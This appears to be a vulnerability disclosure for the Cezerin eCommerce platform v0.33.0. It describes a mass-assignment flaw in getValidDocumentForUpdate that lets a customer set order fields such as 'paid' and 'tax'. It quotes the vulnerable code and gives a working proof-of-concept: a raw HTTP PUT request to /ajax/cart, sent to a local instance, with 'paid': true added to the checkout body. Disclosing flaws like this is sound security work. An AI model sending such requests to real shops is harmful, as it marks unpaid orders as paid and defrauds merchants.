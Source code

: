 # Cezerin v0.33.0 unauthorized order information manipulation

## Detail
Cezerin is React and Node.js based eCommerce platform. The vulnerability locates at function `getValidDocumentForUpdate` in `src/api/server/services/orders/orders.js`. This function is for generating orders. However, it is found that certain internal attributes (e.g., `paid` and `tax`) in this function can be overwritten via a conflicting name from user-input. Hence, a malicious cumstoer can manipulate certain order status (i.e., payment status, tax) by adding additional attributes to user-input during checkout. 

```
	getValidDocumentForUpdate(id, data) {
		return new Promise((resolve, reject) => {
			if (Object.keys(data).length === 0) {
				reject(new Error('Required fields are missing'));
			}

			...

			if (data.paid !== undefined) {
				order.paid = parse.getBooleanIfValid(data.paid, false);
			}

```

## PoC
1. Add any item to the chart and checkout.
2. Add additional attributes (e.g., `paid`, `tax`) to the userinput field in the request.

```
PUT /ajax/cart HTTP/1.1
Host: localhost:3001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
Content-Length: 588
Origin: http://localhost:3000
Connection: close
Referer: http://localhost:3000/checkout
Cookie: _ga=GA1.1.1210659521.1568517952; referrer_url=s%3A.VIG3VwE%2BqzOTa%2FTXmMU1Tj1vO3ghrPfOD%2Bh3hQpJjnw; landing_url=s%3Ahttp%3A%2F%2Flocalhost%2F.tyZ3uwyR9gAuGEJzxP6kxtZ8cXlAsZTbPH6NKLaAhHk; order_id=s%3A5d8c1cea09fadf6772d41e3e.z1%2FfRRvDSKk04wLupmxf8r1NWouIFRXDL9cq9ibTH8Y

{"shipping_address":{"address1":"","address2":"","city":"SG","country":"SG","state":"SG","phone":"","postal_code":"","full_name":"","company":"","tax_number":"","coordinates":{"latitude":"","longitude":""},"details":null},"billing_address":{"address1":"","address2":"","city":"SG","country":"SG","state":"SG","phone":"","postal_code":"","full_name":"","company":"","tax_number":"","coordinates":{"latitude":"","longitude":""},"details":null},"email":"","mobile":"","payment_method_id":"5d7d501d0ee4e592b6cced84","shipping_method_id":"5d7d501d0ee4e592b6cced83","comments":"", "paid": true}
```

3. The status of the order is set as `paid` without payments.
![](Admin-Paid.png)

4. The shipping fee of the order is set as '1.11'.
![](User-Shipping_fee.png)
